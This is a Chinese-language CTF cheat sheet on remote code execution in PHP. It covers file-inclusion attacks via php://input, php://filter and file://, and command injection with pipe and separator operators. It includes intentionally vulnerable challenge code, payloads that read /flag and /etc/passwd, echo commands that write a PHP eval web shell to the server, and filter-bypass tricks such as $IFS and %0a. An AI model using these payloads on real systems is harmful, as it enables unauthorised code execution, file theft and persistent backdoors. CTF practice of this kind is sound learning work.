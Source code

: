 # RCE

## 文件包含

### php://input

* 需要allow_url_fopen=On   allow_url_include=On

* 在enctype=”multipart/form-data” 的时候 php://input 是无效的。

* 处理POST内容

题目源码：

``` php+HTML
<?php
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag? <br>
<a href="phpinfo.php">phpinfo</a>
```

payload：

``` http
POST /?file=php://input HTTP/1.1
......
......
Content-Length: 32

<?php system('cat /flag_415');?>
```

### php://filter

* resource = <要过滤的数据流>	   这个参数是必须的。它指定了你要筛选过滤的数据流。
* read = <读链的筛选列表>	       该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
* write = <写链的筛选列表>	   该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
* <两个链的筛选列表>	       任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。

题目源码：

```php+HTML
<?php
error_reporting(E_ALL);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag? <br>
flag in <code>/flag</code>
```

payload:

```
http://URL/?file=php://filter/read=convert.base64-encode/resource=../../../flag
http://URL/?file=php://filter/read=convert.base64-encode/resource=/flag
http://URL/?file=php://filter/read=/resource=/flag
```

### file://

payload:

``` 
?xxx=file:///etc/passwd
```

## 命令注入

### 管道符

* windows

  ```
  “|”：直接执行后面的语句。
  “||”：如果前面的语句执行失败，则执行后面的语句，前面的语句只能为假才行。
  “&”：两条命令都执行，如果前面的语句为假则直接执行后面的语句，前面的语句可真可假。
  “&&”：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则两条命令都执行，前面的语句只能为真。
  ```

* linux

  ```
  “;”：执行完前面的语句再执行后面的语句。
  “|”：显示后面语句的执行结果。
  “||”：当前面的语句执行出错时，执行后面的语句。
  “&”：两条命令都执行，如果前面的语句为假则执行执行后面的语句，前面的语句可真可假。
  “&&”：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则两条命令都执行，前面的语句只能为真。
  ```

### 直接注入

payload：

``` 
1 | ls /
1 | cat /flag
```

ls有回显，但无法显示flag：

* 有可能被注释，按F12
* 有可能因为编码原因无法显示，所以可以给base64

```
1 | cat /flag | base64
```

### echo写入

payload:

``` 
127.0.0.1&echo -e "<?php @eval(\$_POST['shell']);?>" > shell.php 
127.0.0.1&echo "<?php @eval(\$_POST['shell']);?>" > shell.php 
127.0.0.1&echo "<?php @eval($_POST['shell']);?>" > shell.php 
```

### 过滤

#### 过滤cat命令 or flag等关键词

* 反斜杠：`ca\t fl\ag.php`
* 连接符：`ca''t fla''g.txt`
* `\(` `$` `*`
* 使用TAB(`%09`）补全(可能有问题)：`ca%09`


#### 过滤空格

在 bash 下，可以用以下字符代替空格

```
<, <>, %20(space), %09(tab), $IFS$9, ${IFS}, $IFS, \$IFS\$9, \${IFS}
```

#### 过滤目录分隔符 "/"

linux中：`;` 、`&` 、`|` 、`&&`、`||`

`;`的作用就是在 shell 中，担任”连续指令”功能

payload:  

```
1 & cd flag_is_here;ls
1 & cd flag_is_here;cat flag

;cd flag_is_here&&ls
;cd flag_is_here&&cat flag
```

#### 过滤运算符 “|” “&”

用`;`代替

```
127.0.0.1 | ls --> 127.0.0.1 ; ls
```

用`%0a` `%0d` `%0D%0A`绕过

```
127.0.0.1 | ls --> 127.0.0.1 %0a ls
```



#### URL表

![url1](F:\$_File\web安全\知识点\RCE(remote commend execute)\url1.png)

![url2](F:\$_File\web安全\知识点\RCE(remote commend execute)\url2.png)